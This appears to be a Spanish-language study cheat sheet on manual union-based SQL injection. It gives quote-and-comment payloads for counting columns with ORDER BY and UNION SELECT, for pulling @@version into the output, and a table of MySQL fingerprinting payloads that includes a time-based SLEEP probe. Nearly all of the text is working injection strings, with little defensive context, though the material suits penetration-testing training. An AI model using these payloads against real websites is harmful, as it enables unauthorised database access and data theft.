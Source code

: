   

#### Descubrir columnas
##### ORDER BY
Con esta Query hay que ir probando hasta que diga que el número de columna no existe.

```sql

' order by 1-- -

```

En el número anterior al número de columna que no existe será el número de columnas con el que cuenta la tabla.

##### UNION
Otra forma es con la sentencia UNION, probando diferente cantidad de columnas:

```sql

cn' UNION select 1,2,3-- -

```

```sql

cn' UNION select 1,2,3,4-- -

```

Hasta que no salte un error.

  

De esta forma se printearán el junk data, pero estos datos los podemos sustituir por datos de utilidad, por ejemplo con la etiqueta @@version con la que recibiremos la versión de la base de datos en lugar del número.

```sql

cn' UNION select 1,@@version,3,4-- -

```


### Database enumeration

Comprobación de que la base de datos es MySql:

|Payload|When to Use|Expected Output|Wrong Output|
|---|---|---|---|
|`SELECT @@version`|When we have full query output|MySQL Version 'i.e. `10.3.22-MariaDB-1ubuntu1`'|In MSSQL it returns MSSQL version. Error with other DBMS.|
|`SELECT POW(1,1)`|When we only have numeric output|`1`|Error with other DBMS|
|`SELECT SLEEP(5)`|Blind/No Output|Delays page response for 5 seconds and returns `0`.|Will not delay response with other DBMS|

  
